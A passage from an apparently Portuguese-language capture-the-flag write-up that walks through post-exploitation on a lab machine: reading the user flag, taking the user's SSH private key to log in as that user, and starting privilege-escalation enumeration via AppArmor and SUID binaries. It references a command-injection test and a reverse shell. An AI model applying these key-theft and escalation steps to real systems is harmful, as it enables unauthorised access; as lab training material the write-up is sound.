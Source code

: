 > ⚠️ Dica: Se não aparecer STDOUT com `-c "id"`, use escrita em arquivo (ex.: `> IMG/poc.txt`) ou uma reverse shell como acima.

---

## 🧭 Pós-Exploração (como www-data)

Navegando para o home do user:

```bash
cd /home/think
ls
# spip  user.txt
cat user.txt
# *****
```

**Loot valioso em `.ssh`:**

```bash
ls -la /home/think/.ssh
# id_rsa, id_rsa.pub, authorized_keys
```

Copie o conteúdo do `id_rsa`, salve na sua máquina atacante como `id_rsa`, e ajuste permissões:

```bash
chmod 600 id_rsa
ssh -i id_rsa think@10.201.94.86
whoami
# think
```

Agora estamos como **think** via SSH.

---

## 🧩 Enumeração de Privesc

A própria sala dá a dica:

> **Hint:** *Look to the App Armor by it's profile.*

Checando AppArmor e SUIDs:

```bash
aa-status
# apparmor module is loaded (sem permissão de listar perfis)

find / -perm -4000 2>/dev/null
# ...
# /usr/sbin/run_container   <-- SUSPEITO
# ...
```

Entrando nos perfis:

```bash
ls -la /etc/apparmor.d
# vários perfis padrão; nada explícito de run_container
```
